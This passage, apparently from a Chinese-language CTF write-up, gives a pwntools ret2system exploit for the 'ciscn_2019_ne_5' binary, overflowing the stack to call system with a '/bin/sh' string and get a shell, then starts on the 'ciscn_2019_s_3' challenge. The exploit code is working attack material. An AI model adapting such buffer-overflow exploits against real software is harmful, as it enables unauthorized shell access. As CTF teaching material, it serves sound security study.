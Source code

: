 ```
from pwn import *

sh_addr = 0x80482ea
call_sys = 0x80486b9
payload = b'A'*0x48 + p32(0xdeadbeef) + p32(call_sys)  + p32(sh_addr)

p = process('./ciscn_2019_ne_5')
p.sendline(b'administrator')
p.sendline(b'1')
p.sendline(payload)
p.sendline(b'4')
p.interactive() 
```

运行即可getshell

![](img/a484afc013b9361b33b388ae868e372c.png)

# 0x017.ciscn_2019_s_3 - ret2csu || SROP

> 应[某位可爱的女师傅](https://ll1ng.github.io)的要求先来做这道题（（（

惯例的`checksec`，发现只开了栈不可执行保护

![](img/cb90acd0a01b9f1c827cb2f7c4dd431b.png)

